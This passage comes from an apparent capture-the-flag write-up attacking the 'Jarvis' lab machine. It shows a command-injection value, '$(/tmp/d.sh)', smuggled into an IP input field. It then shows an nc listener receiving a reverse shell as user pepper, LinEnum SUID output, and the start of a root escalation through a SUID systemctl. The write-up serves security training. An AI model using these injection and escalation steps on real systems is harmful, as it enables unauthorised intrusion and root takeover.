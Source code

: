     ***********************************************

    Enter an IP: $(/tmp/d.sh)



I get a shell as pepper:



    root@kali# nc -nlvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.143.
    Ncat: Connection from 10.10.10.143:37144.
    id
    uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)



Now I can grab `user.txt`:



    pepper@jarvis:~$ cat user.txt 
    2afa36c4...



## Priv: pepper --\> root

### Enumeration

I uploaded `LinEnum.sh` and ran it (with `-t`). The SUID section was
interesting:



    [-] SUID files:
    -rwsr-xr-x 1 root root 44304 Mar  7  2018 /bin/mount                
    -rwsr-xr-x 1 root root 61240 Nov 10  2016 /bin/ping                      
    -rwsr-x--- 1 root pepper 174520 Feb 17 03:22 /bin/systemctl       
    -rwsr-xr-x 1 root root 31720 Mar  7  2018 /bin/umount                                             
    -rwsr-xr-x 1 root root 40536 May 17  2017 /bin/su                            
    -rwsr-xr-x 1 root root 40312 May 17  2017 /usr/bin/newgrp                  
    -rwsr-xr-x 1 root root 59680 May 17  2017 /usr/bin/passwd                  
    -rwsr-xr-x 1 root root 75792 May 17  2017 /usr/bin/gpasswd                                                            
    -rwsr-xr-x 1 root root 40504 May 17  2017 /usr/bin/chsh                                                   
    -rwsr-xr-x 1 root root 140944 Jun  5  2017 /usr/bin/sudo
    -rwsr-xr-x 1 root root 50040 May 17  2017 /usr/bin/chfn
    -rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 440728 Mar  1 11:19 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-- 1 root messagebus 42992 Mar  2  2018 /usr/lib/dbus-1.0/dbus-daemon-launch-helper



I'm specifically interested in `/bin/systemctl`. This binary is a
systemd utility which is responsible for Controlling the systemd system
and service manager. That is, it creates and manages services. And in
this case, only root and users in the group pepper (me) can run it, and
it will run as root.
